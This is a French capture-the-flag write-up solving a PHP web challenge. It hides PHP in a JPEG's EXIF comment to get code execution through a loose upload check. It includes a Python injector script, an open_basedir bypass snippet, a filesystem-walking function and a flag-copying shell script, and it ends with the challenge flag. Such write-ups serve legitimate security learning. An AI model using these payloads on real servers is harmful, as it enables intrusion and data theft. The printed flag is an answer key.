






# Ceci n’est pas une pipe

> **Titre** : Ceci n’est pas une pipe  
> **Auteur** : Gabriel Compan  
> **Difficulté** : 2  

## Description

Vous devez récupérer le flag stocké sur le serveur hébergeant ce service web.

## Objectif

L’objectif est d’analyser cette application web écrite en PHP afin de découvrir le flag.

## Disclaimer

Au vu de la longueur du challenge et du temps que j’y ai consacré, je vais aller directement vers la solution. Je n’évoquerai pas la majorité de mes tentatives infructueuses, bien que certaines aient été très intéressantes pour l’apprentissage. Pour toute question, je vous recommande vivement de me contacter via mon Discord `spxnso`.

## Analyse

À première vue, le site nous redirige vers une page de connexion. Ne disposant pas de compte utilisateur, je décide donc d’en créer un.


Prenons par exemple l’utilisateur `spxnso`, avec le mot de passe `123456`.


En inspectant les requêtes réseau, rien de particulier n’apparaît, ce qui confirme que l’application repose sur du PHP pur, sans framework apparent.


Nous sommes ensuite redirigés vers la page de connexion, où j’entre mes identifiants.

Une fois connecté, on découvre une interface permettant de sauvegarder des notes ainsi que d’uploader des fichiers.



En testant la fonctionnalité de sauvegarde de notes, je remarque que le site propose également un upload d’images ainsi qu’une fonctionnalité d’envoi par e-mail, malheureusement indisponible.


En cliquant sur le lien de l’image uploadée, nous sommes redirigés vers une page affichant notre image à l’URL suivante :

```bash
http://localhost:8000/upload/fbf57e7bf82f9ae76b70edb8b946fc9edf60de3b14e3e1818fc6ba661ed74d8d/cat.jpg
```



La première partie de l’URL ressemble fortement à un hash SHA-256, mais mettons cela de côté pour le moment.

Je pense alors immédiatement à une faille XSS, mais mes soupçons se révèlent faux. Sachant que le site est écrit en PHP, j’envisage ensuite une vulnérabilité de type RCE via la fonctionnalité d’upload.

Cependant, seuls les fichiers JPEG et PNG de moins de 100 kilo-octets sont autorisés.


Je remarque également une petite fonctionnalité permettant d’afficher un message personnalisé via la query `?msg=Hello,World!`, mais rien d’exploitable ne semble s’en dégager.

Après environ 30 minutes d’analyse, je constate que le serveur vérifie le contenu des headers de l’image, mais pas son extension. Il devient donc possible d’injecter du code PHP dans une image valide.

Je reprends une image JPEG et la copie dans un fichier `cat.php` :

```bash
cp cat.jpg cat.php
```

À l’aide d’`exiftool`, j’injecte ensuite un payload PHP dans le champ `Comment` de l’image :

```bash
exiftool -overwrite_original -Comment='<?php echo "Cute cat"; ?>' cat.php
```

Il ne reste plus qu’à uploader ce fichier sur le serveur. Le code est alors exécuté, confirmant l’obtention d’un point d’entrée.


Après plusieurs tentatives infructueuses pour obtenir un reverse shell, je décide d’en apprendre davantage sur la configuration du serveur en appelant la fonction `phpinfo()`.

Pour faciliter les injections, j’écris un script Python permettant d’automatiser l’insertion de code PHP dans une image JPEG.

```python
import sys
import os
import subprocess

def main():
    print("Minimal JPG to PHP injector")
    print("Ensure you have exiftool installed on your system")
    
    if len(sys.argv) < 3:
        print("Usage: python inject.py <input.jpg> <php_code.php> <output.php>")
        sys.exit(1)
    
    input_jpg = sys.argv[1]
    php_code_file = sys.argv[2]
    output_php = sys.argv[3]
        
    print(f"Cloning image data from {input_jpg} to {output_php}...")
    with open(input_jpg, "rb") as img_file:
        img_data = img_file.read()
    
    with open(output_php, "wb") as out_file:
        out_file.write(img_data)
        
    with open(php_code_file, "r") as code_file:
        php_code = code_file.read()

    print(f"Appending PHP code from {php_code_file} into {output_php}...")
    try:
        cmd = ["exiftool", "-overwrite_original", f"-Comment={php_code}", output_php]
        subprocess.run(cmd, check=True, capture_output=True)
        print(f"Injection complete. Output file: {output_php}")
    except subprocess.CalledProcessError as e:
        print(f"Error running exiftool: {e}")
        print(f"stderr: {e.stderr.decode()}")
    except FileNotFoundError:
        print("exiftool not found. Make sure it's installed and in your PATH.")
    
main()
```

Une fois l’image injectée et uploadée, l’appel à `phpinfo()` révèle que les fonctions système sont désactivées.




Je lance ensuite un scan avec Gobuster afin de découvrir d’éventuels fichiers intéressants.

Le scan révèle notamment l’existence d’un fichier `config.php`.

L’objectif devient alors de lire le code source de l’application. Cependant, le point d’exécution du code PHP se situe dans le dossier `upload/`, ce qui complique l’accès aux fichiers racine.

Une tentative classique avec `highlight_file()` échoue.



En consultant à nouveau `phpinfo()`, j’apprends que le `cwd` est `/var/www/html` et que la directive `open_basedir` est activée.


Après quelques recherches, je découvre une technique permettant de contourner `open_basedir` en créant un dossier temporaire et en modifiant dynamiquement cette directive.

```php
mkdir("temp");
chdir("temp");
ini_set("open_basedir", ini_get("open_basedir") . ":../");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
ini_set("open_basedir", "/");
```

Une fois le bypass effectué, il devient possible de parcourir l’arborescence complète du système de fichiers.

```php
function rls($path, $depth = 0, $maxDepth = 4) {
    if ($depth > $maxDepth) return;

    try {
        $it = new DirectoryIterator($path);
        foreach ($it as $f) {
            if ($f->isDot()) continue;

            echo str_repeat("&nbsp;&nbsp;", $depth)
                . htmlspecialchars($f->getFilename()) . "<br>";

            if ($f->isDir() && !$f->isLink()) {
                rls($f->getPathname(), $depth + 1, $maxDepth);
            }
        }
    } catch (Exception $e) {

    }
}

rls("/");
```



L’exploration révèle alors l’existence d’un fichier nommé `flag` situé dans le dossier `/home`.

Après une pause, je découvre l’outil **Chankro**, permettant de contourner `disable_functions` et `open_basedir` afin d’exécuter des commandes système.

Je crée un script shell permettant de copier le contenu du fichier `/home/flag` vers mon dossier d’upload.

```bash
#!/bin/bash 
/home/flag > var/www/html/upload/[VOTRE_HASH]/flag
```

Après injection et exécution, la page retournée affiche finalement le flag.

## Flag

```bash
ECSC{f12d9ff3a017065d4d363cea148bef8bfffacc31}
```
